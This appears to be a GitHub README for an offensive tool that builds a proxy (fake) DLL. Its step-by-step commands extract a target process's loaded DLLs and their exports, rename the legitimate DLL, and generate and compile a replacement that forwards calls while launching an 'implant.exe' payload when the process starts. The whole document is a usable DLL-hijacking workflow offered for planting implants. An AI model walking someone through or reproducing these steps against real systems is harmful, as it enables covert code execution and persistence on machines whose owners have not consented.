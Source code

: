 # DLL Proxy

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp**: Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp**: Extracts the exported functions from DLL.

- **maker.sh**: Adds the extracted functions into a template for creating a fake (proxy) DLL.


# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```
**Step 3**  

Copy the extracted function names to file.txt.  
> expample file.txt
 
![](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
```cmd
x86_64-w64-mingw32-g++ -shared -o example.dll output.cpp
```
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**
